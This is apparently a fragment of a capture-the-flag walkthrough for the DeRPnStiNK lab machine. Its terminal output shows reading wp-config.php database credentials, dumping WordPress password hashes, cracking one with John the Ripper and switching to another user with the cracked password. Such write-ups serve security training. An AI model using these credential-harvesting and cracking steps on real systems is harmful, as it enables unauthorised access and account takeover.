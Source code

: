 
    ls -al /home
    total 16
    drwxr-xr-x  4 root   root   4096 Nov 12  2017 .
    drwxr-xr-x 23 root   root   4096 Nov 12  2017 ..
    drwx------ 10 mrderp mrderp 4096 Jan  9  2018 mrderp
    drwx------ 12 stinky stinky 4096 Jan  9  2018 stinky

    
    www-data@DeRPnStiNK:/var/www/html/weblog$ cat wp-config.php

    define('DB_NAME', 'wordpress');

    /** MySQL database username */
    define('DB_USER', 'root');

    /** MySQL database password */
    define('DB_PASSWORD', 'mysql');

    /** MySQL hostname */
    define('DB_HOST', 'localhost');

    /** Database Charset to use in creating database tables. */
    define('DB_CHARSET', 'utf8');

    www-data@DeRPnStiNK:/tmp$ uname -a
    uname -a
    Linux DeRPnStiNK 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux

    mysql> select user_login, user_pass from wp_users;
    select user_login, user_pass from wp_users;
    +-------------+------------------------------------+
    | user_login  | user_pass                          |
    +-------------+------------------------------------+
    | unclestinky | $P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41 |
    | admin       | $P$BgnU3VLAv.RWd3rdrkfVIuQr6mFvpd/ |
    +-------------+------------------------------------+

    └─$ john key --wordlist=/usr/share/wordlists/rockyou.txt                               1 ⨯
    Using default input encoding: UTF-8
    Loaded 1 password hash (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
    Cost 1 (iteration count) is 8192 for all loaded hashes
    Will run 8 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    wedgie57         (?)
    1g 0:00:00:39 DONE (2021-04-09 23:32) 0.02525g/s 70631p/s 70631c/s 70631C/s wee1994....wedders1234
    Use the "--show --format=phpass" options to display all of the cracked passwords reliably
    Session completed

## stinky privilege
                                                                                           
    www-data@DeRPnStiNK:/$ su stinky
    Password: wedgie57

